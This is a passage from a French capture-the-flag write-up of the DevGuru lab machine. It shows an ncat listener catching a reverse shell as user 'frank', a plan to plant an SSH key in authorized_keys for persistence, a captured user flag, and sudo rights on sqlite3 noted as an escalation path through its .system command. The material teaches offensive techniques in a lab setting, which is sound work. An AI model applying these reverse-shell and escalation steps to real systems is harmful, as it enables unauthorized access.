 ```plain
delimiter: <class 'pexpect.exceptions.EOF'> 
logfile: None 
logfile_read: None 
logfile_send: None 
maxread: 2000 
ignorecase: False 
searchwindowsize: None 
delaybeforesend: 0.05 
delayafterclose: 0.1 
delayafterterminate: 0.1 
searcher: searcher_re: 
    0: re.compile(b'Username for .*: ')
```

et sur le Ncat préalablement mis en écoute :  

```plain
$ ncat -v -l -p 9999 
Ncat: Version 7.92 ( https://nmap.org/ncat ) 
Ncat: Listening on :::9999 
Ncat: Listening on 0.0.0.0:9999 
Ncat: Connection from 192.168.56.20. 
Ncat: Connection from 192.168.56.20:34700. 
bash: cannot set terminal process group (617): Inappropriate ioctl for device 
bash: no job control in this shell 
frank@devguru:~/gitea-repositories/frank/vuln.git$ id 
id 
uid=1000(frank) gid=1000(frank) groups=1000(frank)
```

Je m’empresse de rajouter ma clé publique SSH au fichier *.ssh/authorized keys* pour utiliser le serveur SSH à la place du Ncat.  

unsigned int
------------

```plain
frank@devguru:~$ cat user.txt  
22854d0aec6ba776f9d35bf7b0e00217
frank@devguru:~$ sudo -l 
Matching Defaults entries for frank on devguru: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 

User frank may run the following commands on devguru: 
    (ALL, !root) NOPASSWD: /usr/bin/sqlite3
```

Je peux lancer sqlite3 en tant que n'importe quel utilisateur... sauf root !  

sqlite3 dispose d'une commande *.system* pour exécuter des commandes mais si je ne peux pas taper sur root, quel est ma cible ?  

J'ai noté des dossiers sous */data* liés à un utilisateur manquant. J'ai donc fouillé dans ce sens :  
